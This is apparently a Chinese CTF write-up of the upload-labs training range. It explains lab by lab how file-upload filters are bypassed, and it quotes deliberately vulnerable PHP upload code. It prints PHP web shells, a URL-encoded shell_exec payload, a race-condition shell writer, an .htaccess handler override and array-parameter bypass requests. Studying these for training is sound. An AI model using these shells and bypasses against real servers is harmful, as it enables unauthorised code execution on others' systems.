



# File Upload

## Upload labs

Challenge: *Upload-Labs-Linux*

### 简介

`upload-labs`是一个使用`php`语言编写的，专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场。旨在帮助大家对上传漏洞有一个全面的了解。目前一共20关，每一关都包含着不同上传方式。

### 注意

1. 每一关没有固定的通关方法，大家不要自限思维！

2. 本项目提供的`writeup`只是起一个参考作用，希望大家可以分享出自己的通关思路。

3. 实在没有思路时，可以点击`查看提示`。

4. 如果黑盒情况下，实在做不出，可以点击`查看源码`。
5. **一般套路：需要使用扫描器扫描可能的注入入口** https://blog.csdn.net/elephantxiang/article/details/120406001
   * PHP 后缀字典生成 https://www.freebuf.com/articles/web/188464.html

### 后续

如在渗透测试实战中遇到新的上传漏洞类型，会更新到`upload-labs`中。当然如果你也希望参加到这个工作当中，欢迎`pull requests`给我!

项目地址：`https://github.com/c0ny1/upload-labs`

## lab01

Bare php file upload

**过滤发生在前端js，拦截数据包修改文件名**



**需要准备文件马**

```php
<?php eval($_GET('a')); ?>
```

若存在对php的解析访问权限，通过GET/POST上传文件地址，即可触发PHP木马执行

```
GET /upload/php_webshell.php?a=%24%72%65%74%3d%73%68%65%6c%6c%5f%65%78%65%63%28%22%63%61%74%20%2f%66%6c%61%67%22%29%3b%65%63%68%6f%20%24%72%65%74%3b HTTP/1.1
Host: 113479ed-9c63-474d-a552-6ee0be04ba86.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://113479ed-9c63-474d-a552-6ee0be04ba86.node5.buuoj.cn:81/Pass-01/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Payload (URL encoded)

```php
$ret=shell_exec("cat /flag");echo $ret;

%24%72%65%74%3d%73%68%65%6c%6c%5f%65%78%65%63%28%22%63%61%74%20%2f%66%6c%61%67%22%29%3b%65%63%68%6f%20%24%72%65%74%3b
```

## Lab02

同lab01，服务端对MIME进行检查，lab01的木马上传方式仍然有效（MIME为 `iamge/jpeg`）

> text/plain （纯文本）
> text/html （HTML文档）
> text/javascript （js代码）
> application/xhtml+xml （XHTML文档）
> image/gif （GIF图像）
> image/jpeg （JPEG图像）
> image/png （PNG图像）
> video/mpeg （MPEG动画）
> application/octet-stream （二进制数据）
> application/pdf （PDF文档）

## lab03

source: 
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

* 黑名单机制，ban `'.asp','.aspx','.php','.jsp'`，使用文件名匹配
  * **使用其他可解析的文件名绕过**： `phtml, php5, php3`
* 否则使用某随机文件名方式存储，在有回显的情况下不是问题

拿下



## lab04

提示：

> 本pass禁止上传 .php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf后缀文件！

Source:
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


**使用htaccess修改站点解析配置**

reference: https://blog.csdn.net/weixin_46684578/article/details/119141109

* htaccess 负责相关目录下的网页配置。通过htaccess文件，可以帮助我们实现：网页301重定向、自定义404错误页面，改变文件扩展名、允许/阻止特定的用户或者目录的访问，禁止目录列表，配置默认文档等功能

* 前置条件：apache `http.conf` 配置文件中，设置 `AllowOverride All`，允许覆写配置

* 具体配置：在某个目录下增加`.htaccess`文件（没有文件名），代表对该目录下的文件解析等配置

* 文件内容

  * 可以使用`FilesMatch`增加对特定文件后缀的解析
    ```htaccess
    <FilesMatch "\.jpg">
    	SetHandler application/x-httpd-php
    <FilesMatch>
    ```

  * 或者不加约束，使用全局配置

之后上传普通jpg马，可以直接解析




## lab05

封堵`htaccess`，**但相比04少了小写转换**，故可以通过大小写绕过，文件名修改为`Php`即可，需要回显文件名


## lab06

相比05增加大小写验证，但没有trim，**可以使用空格绕过或使用双写DATA（仅windows系统）**

*未成功*，现有方案全部基于Windows系统


## lab07

没有过滤 `.` 后缀，**虽然系统保存仍然包含.，但是中间件仍能解析该文件为PHP**


## lab08

没有过滤 `::$DATA`，此绕过仅对Windwos NTFS数据流有效，对Linux无效


## Lab09

**同lab04**，增加htaccess限制

* 发现拼接的原文件名中，后缀点被删除
* 使用 `php. .`绕过检查，拼接后为`.php. `，此后缀被解析为等同`php`


## lab10

* 提示：会删除文件中的黑名单字符
* 通过双写绕过


## Lab11

提示路径可控

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

* 使用白名单控制
* 检测文件路径`save_path`，路径可控

* **在文件路径get参数上使用`%00`截断**，PHP版本要求 `<=5.3.4`


## lab12

路径参数改为POST，将URL encode变为hex即可


## lab13

图片马，需要使用**文件包含漏洞**

* 预先条件：目标包含一个文件包含漏洞，example:
  ```php
  <?php
  /*
  本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
  */
  header("Content-Type:text/html;charset=utf-8");
  $file = $_GET['file'];
  if(isset($file)){
      include $file;
  }else{
      show_source(__file__);
  }
  ?> 
  ```

* 将php木马拼接到图片末尾，使用文件包含漏洞include该图片马，会将`<php>`处解析


## lab14

使用`getimagesize`函数解析图片文件头，前面使用的图片马仍然可用


## lab15

使用`exif_imagetype`函数解析图片文件头，方法仍然可用


## lab 16

重新渲染，需要绕过渲染机制

1. GIF: 通过比较渲染前后无改动的部分，注入代码即可
2. PNG：使用`png-render-webshell.php`脚本，写入IDAT数据块
3. JPG：使用`jpg-render-webhsell.php`脚本


## lab17

代码审计

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

* 文件上传到删除存在时间差，**使用并发POST和GET，在删除之前访问到shell，完成攻击**
* 同时intruder重放current payload和GET payload请求，访问直至出现200，shell写入成功


Concurrent payload:
```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET["a"])?>');?>
```


## lab18

```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

* 仍然是条件竞争，与lab17相同


## lab19

* 使用PHP函数`pathinfo`获取文件拓展名，黑名单过滤
* 该函数选取最后一个`.`后内容为文件拓展名
* 使用`.php.`绕过即可


## lab20

Source audit

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}

```

* `save_name` 上传数组，可以避免继续划分
* `reset()`函数指向对象的第一个元素

* **`end()`与`[count()-1]`在关联数组（字典）下表现存在区别**

  * ```php
    <?php
    //end() 与 count($array)-1 的区别
    $filename = 'a.b.c.jpg';
    $array = explode('.', $filename);
    echo end($array).PHP_EOL;
    echo $array[count($array)-1].PHP_EOL;
    
    $array = ['id' => 1, 'username' => 'tom'];
    echo end($array).PHP_EOL;
    echo count($array).PHP_EOL;
    echo reset($array).PHP_EOL;
    ?>
      
    jpg
    jpg
    tom
    2
      
    1
    ```

  * 其中，`end()`取最后一个元素的值，`[]`不返回内容，`reset`返回第一个元素的值

* 构造`save_name`参数payload
  ```php
  <?php
    $save_name = ['payload' => 'pass20.php', 'username' => 'jpg'];
  ?>
  ```

* 作为POST参数上传
  ```http
  
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="upload_file"; filename="php_webshell.jpg"
  Content-Type: image/jpeg
  
  <?php eval($_GET['a']); ?>
  
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="save_name['payload']"
  
  pass20.php
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="save_name['pass']"
  
  jpg
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="submit"
  
  上传
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39--
  ```


* 另法：设置空索引，即分别设置`arr[0]`, `arr[2]`，count将为2，而`arr[1]`将为空


## Examples

### [极客大挑战 2019]Upload

1. 检测文件中是否包含`<?`
2. 检测文件头，判断图片
3. 文件后缀没有约束（不能php）

**新Shell格式**：

```html
<script language="php">eval($_POST['a'])</script>
```

上传文件位置`upload/`